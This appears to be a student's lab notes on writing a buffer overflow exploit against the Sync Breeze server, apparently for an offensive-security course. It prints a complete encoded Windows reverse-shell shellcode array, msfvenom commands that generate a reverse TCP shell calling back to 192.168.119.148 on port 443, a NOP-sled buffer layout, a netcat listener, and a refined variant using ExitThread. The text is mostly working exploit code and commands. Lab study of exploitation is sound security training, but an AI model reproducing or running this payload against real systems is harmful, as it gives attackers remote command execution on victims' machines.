 ```
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\xc0\xa8\x77\x94\x68"
"\x02\x00\x01\xbb\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2"
"\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44"
"\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56"
"\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff"
"\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6"
"\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5";
```
include bad chars  

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.148 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

-b bad char  
-e encoder  

the decoder (getPC routine) in the shell code modify the stack thus modify the decoder code it self.  

create landing path, add many nops (\x90) 

```
nops = "\x90" * 10
inputBuffer = filler + eip + offset + nops + shellcode
```

```
sudo nc -lnvp 443  
```

Yeah!!  

But when we exit the shell, the sync breeze crash and exit  


## improving the exploit  
Using ExitThread instead of ExitProcess
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.148 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```
